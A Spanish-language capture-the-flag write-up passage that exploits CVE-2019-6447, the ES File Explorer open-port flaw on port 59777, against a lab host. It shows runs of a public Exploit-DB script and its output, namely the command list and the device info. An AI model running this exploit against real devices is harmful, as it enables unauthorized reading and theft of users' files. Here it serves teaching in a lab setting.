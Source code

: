 # User.txt

Me llama la atención el puerto sostenido por el servicio `ES File Explorer` e investigo un poco más sobre este:

![image](https://user-images.githubusercontent.com/67548295/139671914-67c50053-8098-496e-b258-f4e566232a45.png)

Al intentar buscar información sobre este puerto vemos que se hace mención a una vulnerabilidad.

Podemos ver su [identificador CVE](https://www.redhat.com/es/topics/security/what-is-cve){:target="\_blank"}{:rel="noopener nofollow"} y también podemos comprobar que existen modulos de `metasploit` para explotar esta vulnerabilidad.

Pero en este blog no utilizamos `metasploit`, asi que me apoyo de un [_Proof of concept_ de GitHub](https://github.com/fs0c131y/ESFileExplorerOpenPortVuln){:target="\_blank"}{:rel="noopener nofollow"} para explotar la vulnerabilidad de forma manual.

LA vulnerabilidad consiste en lo siguiente:

> Cada vez que un usuario abre la aplicación, se monta un servidor **HTTP**. El servidor se ejecuta en el puerto `59777`.
> En este puerto, un atacante puede enviar payloads en **JSON** para obtener información sobre el dispositivo, descargar imágenes, ejecutar aplicaciones remotamente, etc.

Buscando por `exploitDB` encuentro un exploit funcional:

* [ES File Explorer 4.1.9.7.4 - Arbitrary File Read](https://www.exploit-db.com/exploits/50070){:target="\_blank"}{:rel="noopener nofollow"}

```bash
┌──[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ python3 50070.py whoami 10.10.10.247
[-] WRONG COMMAND!
Available commands : 
  listFiles         : List all Files.
  listPics          : List all Pictures.
  listVideos        : List all videos.
  listAudios        : List all audios.
  listApps          : List Applications installed.
  listAppsSystem    : List System apps.
  listAppsPhone     : List Communication related apps.
  listAppsSdcard    : List apps on the SDCard.
  listAppsAll       : List all Application.
  getFile           : Download a file.
  getDeviceInfo     : Get device info.
  ```
  
Intento ejecutar un `whoami` pero no podemos.

Únicamente podemos ejecutar esos comandos que se nos listan.

Probemos con el comando `getDeviceInfo`:

```bash
┌──[z3r0byte@z3r0byte]─[~/Descargas]
└──╼ $ python3 50070.py "getDeviceInfo" 10.10.10.247

==================================================================
|    ES File Explorer Open Port Vulnerability : CVE-2019-6447    |
|                Coded By : Nehal a.k.a PwnerSec                 |
==================================================================

name : VMware Virtual Platform
ftpRoot : /sdcard
ftpPort : 3721
```
Podemos concluir que hay una ruta con nombre `/sdcard`.
